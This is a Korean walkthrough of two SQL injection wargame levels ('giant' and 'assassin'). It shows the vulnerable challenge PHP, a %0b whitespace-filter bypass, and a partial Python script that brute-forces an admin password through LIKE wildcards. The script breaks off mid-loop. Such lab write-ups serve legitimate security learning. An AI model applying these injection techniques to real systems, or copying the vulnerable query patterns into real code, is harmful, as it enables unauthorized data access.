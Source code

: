 ## Giant
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```
다양한 공백 우회 방법에 대한 필터링이 사용되고 있다.<br>
공백 필터링을 우회하여 from과 prob 사이의 공간을 만들어야 한다.

**%0b** 등 다른 공백 우회 방법을 사용해 문제를 해결할 수 있다.
```sql
select 1234 from{$_GET[shit]}prob_giant where 1
-> select 1234 from prob_giant where 1
```
<br>

## Assassin
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
### exploit
그냥 보면 **'** 만 필터링하는 평범한 구문이지만 like를 사용하고 있기 때문에 취약점이 있다.<br>
like는 _와 %를 사용해서 부분 일치를 검증할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'
cookie = {"PHPSESSID" : 'cookie 값'}

result_pw = ''

cash = ''
cash_1 = ''
for i in range(8):
    if not cash_1:
        result_pw += cash
        cash = ''
        cash_1 = ''
    for pw in range(ord('0'), ord('z')):
        param = {'pw': f'{result_pw+chr(pw)}%'}
        res = requests.get(url,params=param, cookies=cookie)
        if not "<hr><br><code>" in res.text:
            if "Hello admin" in res.text: # Hello admin | Hello guest를 바꿔가며 pw를 알아낼 수 있음
```